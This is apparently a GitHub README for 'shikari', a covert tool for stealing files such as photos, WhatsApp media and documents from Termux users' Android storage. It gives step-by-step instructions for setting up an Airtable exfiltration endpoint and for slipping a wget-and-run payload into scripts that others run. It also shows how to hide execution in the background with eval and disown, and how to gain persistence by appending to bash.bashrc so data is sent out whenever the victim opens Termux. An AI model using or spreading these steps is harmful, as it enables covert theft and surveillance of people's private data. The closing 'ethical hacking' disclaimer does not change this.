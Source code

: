
<h1 align="center">
  <br>
  <a href="#"><img src="https://github.com/Bhai4You/bhai4you/raw/master/shikari.gif" alt=""></a>


## Features

✓ First time on internet 😎 , Give credit if you are going to copy my idea or code ;)</br>
✓ You can get any files of victim 🌚</br>
- /storage/DCIM
- /storage/Pictures
- /storage/WhatsApp 
- /storage/Anything..;)

✓ All things happen in background.</br>
✓ Not Easily Detectable</br>
✓ You will get notifications through Email ;)</br>

## Tutorial
### Step 1
- [Create New Account](https://airtable.com/invite/r/GNqgr5Ps)
### Step 2
- Create New Base
- Create Table
- Create 2 Field
    + Field 1 : Name
    + Field 2 : link
- Check Screenshot for Understanding.

<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-183933.jpg"></a>
### Step 3
Note Down following ids.
+ [API ID](https://airtable.com/account)
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-185807.jpg"></a>
+ [Base ID](https://airtable.com/api)
<a href="#"><img src="https://d3drh3gsi3sqc6.cloudfront.net/images/airtable-find-base-id.png"></a>
+ Table Name
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-192936.jpg"></a>
### Step 4
Paste below code in your github and save it "shikari.txt"</br>
modify your details under " " or ' '</br>
```
export api="keyamJ*********"
export base='appJ8Pj*****'
export table="hack"
export folder="ADM"
[[ "${#BASH_SOURCE[@]}" -gt "1" ]] && { return 0; }
```

Enter your folder name you want to Hack. (ex. DCIM, Pictures, Download, Music) </br></br>
Now you can change your target folder anytime by changing in your github shikari.txt.</br></br>
When you change it with "Documents" then you will get Documents ! if you change folder name to "Pictures" then you will get Pictures of victim 🌚</br></br>

### Step 5

+ Now add below command in your script.
Example.,

+ Change wget link with your shikari.txt.link
```
$ cd $HOME
$ wget https://raw.githu../master/shikari.sh (your shikari.txt raw link)
$ pkg install python -y
$ pip install shikari
$ shikari
```

After Complete Process Don't forget to remove "shikari.txt" file
```
cd $HOME
rm -f shikari.txt
```

### Background Process
Add this code in your new "hack.sh" script for background process.
```
_evalBg() {
eval "$@" &>/dev/null & disown;
}
cmd="pip install shikari && shikari";
_evalBg "${cmd}";
```
Add "bash hack.sh" in your shikari.txt script instead of pip install shikari...

```
$ cd $HOME
$ wget https://raw.githu../master/shikari.sh (your shikari.txt raw link)
$ pkg install python -y
$ bash hack.sh
```

You can upload hack.sh on your GitHub and add on victim device by wget command then you can put "bash hack.sh" for background process.
### logic
When someone open termux everytime you will get /storage/folder of victim.
+ You need to follow this step..(add below code in your Bash script)
```
mv hack.sh $PREFIX/etc/bin 
echo "bash hack.sh" >> $PREFIX/etc/bash.bashrc
```

### Limitation
+ You can't get any folder if your victim have no storage permission on Termux.
+ add this command in your script for Storage permission.
```
termux-setup-storage
```

### Email Setup
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203554.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203648.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203715.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203743.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203810.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-204013.jpg"></a>

+ Setup according your need , when someone use your script then automatically backdoor
Created on victim device, everytime your victim open termux you will get his data through Email !!
+ After uploading folders, airtable will send you download link ;)

### Demo Screenshots
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205246_105.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205251_263__01.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205256_944__01.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205300_548.jpg"></a>

### Video Tutorial
[![Part : 1](https://raw.githubusercontent.com/Bhai4You/bhai4you/master/png_20220430_155107_0000.png)](https://www.youtube.com/watch?v=fQX3X8DiP3M)

### Error/Problems
Telegram : @realbhai4you

### Disclaimer
The tutorial and demo provided for informational and educational purpose only, and for those who’re willing and curious to know and learn about Ethical Hacking, Security and Penetration Testing.</br></br> Any time the word “Hacking” that is used on this Application shall be regarded as Ethical Hacking.</br></br>
You shall not misuse the information to gain unauthorised access. However you may try out these hacks on your own computer at your own risk. Performing hack attempts (without permission) on computers that you do not own is illegal.
